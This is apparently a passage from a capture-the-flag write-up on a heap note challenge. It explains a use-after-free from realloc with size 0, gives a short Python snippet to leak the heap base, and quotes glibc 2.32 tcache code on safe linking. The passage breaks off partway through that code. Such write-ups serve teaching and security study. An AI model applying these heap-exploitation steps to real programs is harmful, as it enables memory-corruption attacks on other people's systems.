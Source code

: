 {{</expand>}}

It's a typical note challenge structure. We have an array of 10 notes of size 0-0x78. We can edit or show note's content. `edit()` is more noticable that implemented using `realloc()`, and input `size` can be 0 so we `free()` chunk, but pointer is not cleared after `free()`. So in summary we can use `edit()` to:

- Allocate new chunk for empty note
- Allocate new bigger chunk for smaller note. 
- Edit note's content
- **Free chunk, with pointer remained**

## Leak heap base

We can abuse the above finding to leak heap base by freeing a chunk that another idx point to. 

```python
# leak heap base
edit(0, 0x60, b'a')
edit(0, 0)
edit(1, 0x60, b'a')
edit(0, 0)
list()
```

## Glibc-2.32's Safe Linking

https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/

Note that what we leaked is an encrypted form of chunk's fd:

```
gdb
```

This is because of glibc-2.32's safe linking.

Safe linking is a security mechanism to protect `malloc()`'s single-linked lists from tampering by attacker.

In this case we encounter this protection when allocate and free tcache chunk

```c:malloc.c
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache_key;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
```